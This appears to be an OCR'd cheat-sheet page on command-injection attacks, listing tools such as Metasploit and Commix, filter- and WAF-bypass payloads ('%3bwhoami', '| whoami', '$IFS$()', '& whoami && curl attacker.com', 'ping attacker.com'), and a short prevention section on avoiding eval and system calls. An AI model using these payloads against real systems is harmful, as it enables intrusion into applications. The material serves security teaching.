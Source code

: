 Nuclei (with RCE templates)

Metasploit

Commix (for command injection)

🎭 Bypass Techniques
Encoding/Obfuscation:

Bypass filters using URL encoding, double encoding, or base64:

bash
Copy
Edit
%3bwhoami
WAF Evasion:

Use alternate command separators:

bash
Copy
Edit
| whoami
$IFS$() tricks
Chained Commands:

Example:

bash
Copy
Edit
& whoami && curl attacker.com
Error-Based & Blind Techniques:

Trigger syntax errors to gain insights, or use:

bash
Copy
Edit
ping attacker.com
sleep 10
🛡️ Prevention
Avoid Dynamic Code Execution:

Do not use eval(), system(), exec() with user input.

Input Validation & Whitelisting:

Allow only expected values (e.g., id=1,2,3).

Avoid blacklist filtering.

Use Safe APIs:

Prefer language-safe alternatives. E.g., use parameterized queries instead of shell execution.

Limit Privileges:

Run apps with minimum OS/system permissions.
